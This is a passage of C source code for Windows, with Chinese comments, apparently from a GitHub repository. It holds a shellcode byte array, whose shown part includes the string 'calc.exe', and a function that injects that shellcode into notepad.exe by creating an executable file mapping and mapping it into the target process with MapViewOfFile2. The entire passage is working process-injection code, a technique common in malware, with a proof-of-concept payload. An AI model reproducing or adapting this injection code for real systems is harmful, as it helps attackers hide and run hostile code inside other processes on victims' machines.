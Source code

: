 ```
		"\x93\x8D\x04\x18\xEB\x09\x63\x61\x6C\x63\x2E\x65\x78\x65"
		"\x00\xE8\x00\x00\x00\x00\x5B\x83\xEB\x0E\x6A\x05\x53\xFF"
		"\xD0\x8B\xE5\x5D\xC3";
	DWORD dwShellcodeLength = sizeof shellcode;

	//测试 【MappingShellcodeFile】
	PROCESS_INFORMATION pi;
	ZeroMemory(&pi, sizeof(pi));
	wchar_t* lpProcessName = _wcsdup(TEXT("notepad.exe"));
	//我自己写的函数，可以用 OpenProcess 替代，传入 pid
	OpenProcessWithProcessNameW(lpProcessName, &pi);
	result = MappingShellcodeFile(&pi, shellcode, dwShellcodeLength);
	printf("result = %d\n", result);

	return 0;
}


BOOL MappingShellcodeFile(LPPROCESS_INFORMATION pi, unsigned char* shellcode, DWORD dwShellcodeLength)
{
	HANDLE hMapping;
	//在注入进程创建 mapping
	hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, dwShellcodeLength, NULL);
	//将mapping映射到注入进程虚拟地址
	if (hMapping != 0) {
		LPTSTR lpMapAddr = (LPTSTR)MapViewOfFile(hMapping, FILE_MAP_WRITE, 0, 0, dwShellcodeLength);
		if (lpMapAddr != 0) {
			//往被映射的虚拟地址写入shellcode
			memcpy((PVOID)lpMapAddr, shellcode, dwShellcodeLength);

			//打开被注入进程句柄，将mapping映射到被注入进程虚拟地址
			LPVOID lpMapAddressRemote = MapViewOfFile2(hMapping, pi->hProcess, 0, NULL, 0, 0, PAGE_EXECUTE_READ);
			if (lpMapAddressRemote != 0) {
				//以下两行为测试函数
				//printf("lpMapAddressRemote = %p\n", lpMapAddressRemote);
				//MessageBox(NULL, L"1", NULL, MB_OK);
				return (TRUE);
			}
			else {
				printf("MapViewOfFile2 failed with SYSTEM ERROR CODE: %d.\n", GetLastError());
				return (FALSE);
			}
			
		}
		else {
			printf("MapViewOfFile failed with SYSTEM ERROR CODE: %d.\n", GetLastError());
			return (FALSE);
		}
	}
	else {
		printf("CreateFileMapping failed with SYSTEM ERROR CODE: %d.\n", GetLastError());
		return (FALSE);
	}
}
```
